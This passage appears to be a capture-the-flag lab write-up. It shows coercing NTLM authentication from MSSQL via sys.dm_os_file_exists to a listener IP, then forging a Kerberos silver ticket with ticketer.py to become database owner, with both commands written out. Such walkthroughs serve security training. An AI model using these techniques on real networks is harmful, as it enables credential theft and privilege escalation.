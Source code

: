We have MSSQL running on SRV1, so verifying these credentials can be used to login there

<img src="https://i.imgur.com/qfCyq77.png"/>

<img src="https://i.imgur.com/pxG4pEc.png"/>

Here we can try to enable `xp_cmdshell` , but it was not getting executed, similarly with `xp_dirtree` as well

<img src="https://i.imgur.com/jx4XIbF.png"/>
<img src="https://i.imgur.com/5wQpASR.png"/>s

## MSSQL Coerced Authentication

The reason behind this is probably that we are a guest user in the database,
Looking for any alternate functions that can allow us to query for UNC paths, there's a neat cheat sheet for coercion through mssql but most of them didn't work as they required administrative privileges or were blocked, `xp_fileexist` was working tho but it wasn't able to perform coercion just showing if the file exists

<img src="https://i.imgur.com/dUNL7v7.png"/>

Searching around for utilizing fileexists, there's another function `sys.dm_os_file_exist` which we can cause coercion, even tho the functionality is the same but I am uncertain what major difference is there between the two

<img src="https://i.imgur.com/0veZWBO.png"/>

```bash
SELECT * FROM sys.dm_os_file_exists('\\10.8.0.136\test\')
```

<img src="https://i.imgur.com/NdUOOWZ.png"/>
<img src="https://i.imgur.com/nea9MVy.png"/>

The mssql service is running as RASCZAK user so what if we try to create a silver ticket and then access the service, we can convert the plain text into nthash with python and get the domain sid with rpcclient (or any other way we want)

<img src="https://i.imgur.com/lHwslJ3.png"/>
<img src="https://i.imgur.com/wnhUxXT.png"/>

For forging a silver ticket, `ticketer.py` will be used to do that

```bash
ticketer.py -nthash hash -spn MSSQLSvc/SRV1.KLENDATHU.VL -domain KLENDATHU.VL -domain-sid S-1-5-21-641890747-1618203462-755025521 administrator
```

<img src="https://i.imgur.com/rsWH0bb.png"/>

After using the forged ticket (silver ticket), we can see that the user we currently are is `dbo` which is the database owner, so now we won't have any restrictions on running xp_cmdshell
